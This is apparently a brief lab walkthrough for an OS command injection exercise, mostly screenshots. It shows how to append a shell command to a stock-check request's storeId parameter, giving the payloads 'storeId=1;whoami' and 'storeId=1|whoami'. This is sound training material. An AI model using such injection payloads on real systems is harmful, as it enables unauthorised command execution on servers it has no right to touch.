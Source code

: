 search for the following request:  

![grafik](https://user-images.githubusercontent.com/62068604/234092661-312b024c-2c52-4aa4-a79d-e95c72bc51a3.png)  

concatenate the storeId parameter with the following OS command:  
`productId=1&storeId=1;whoami` or `productId=1&storeId=1|whoami`  

![grafik](https://user-images.githubusercontent.com/62068604/234093306-89a7de7f-6894-43ab-a90d-052cfb441434.png)

